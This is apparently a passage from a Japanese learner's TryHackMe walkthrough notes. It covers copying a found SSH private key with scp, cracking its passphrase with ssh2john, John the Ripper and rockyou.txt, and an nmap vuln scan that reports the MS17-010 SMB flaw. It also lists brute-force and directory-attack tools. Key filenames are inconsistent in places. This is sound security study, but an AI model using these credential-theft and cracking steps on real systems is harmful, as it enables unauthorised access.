 ssh先でファイルを見ていると秘密鍵を発見。/home/kay/.ssh/rd_rsa

以下のSCPコマンドでローカルにrd_rsaをDLしたら、これを解析していく
```
scp jan@10.x.x.x:/home/kay/.ssh/id_rsa ./id_rsa
```

SSH秘密鍵が得られたが、パスフレーズで保護されておりそのままではログインできなかった。
ssh2john を使って鍵を John the Ripper 形式に変換し、rockyou.txt でクラックを実施
```
ssh2john kay_rsa > kay_hash.txt
john kay_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


### 参考サイト
- 同じRoomを完了させている人：[TryHackMeでハッキングを勉強してみた話](https://zenn.dev/ci/articles/aa15d88b06bbed#%E5%8F%82%E8%80%83%E3%81%AB%E3%81%95%E3%81%9B%E3%81%A6%E3%81%84%E3%81%9F%E3%81%A0%E3%81%84%E3%81%9F%E6%83%85%E5%A0%B1%E7%BE%A4)
- 同じRoomを完了させている人：[【TryHackMe】Basic Pentesting：Walkthrough](https://qiita.com/kk0128/items/bbbdaa5d5982135f9b5a)

### Day2勉強したこと
- nmapで利用しているポートを洗い出せる
- dirbでサーバーのディレクトリ攻撃ができる
- SambdaはLinux用の共通フォルダサービス
- Sambdaにアノニマスユーザーが残っていると攻撃されうる
- hydraでパスワードのブルーフォース攻撃ができる
- sshでログインできればscpとかでファイルをローカルに保存できる

## Day3：Windowsの脆弱性を利用した攻撃
[Blue](https://tryhackme.com/room/blue)  
Windowsサーバーに対してまずはnmapで偵察

### ネットワークの偵察
```
nmap -sV -Pn -oN nmap.txt -v 10.x.x.x --script vuln
```
"--script vuln"によって、脆弱性の調査までしてくれる。

VULNERABLE(脆弱性)の結果として、"CVE-2017-0143"が出力され、リモートからの不正コード実行のRCE(Remote Code Execution)の脆弱性があることを確認できる。
```
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```
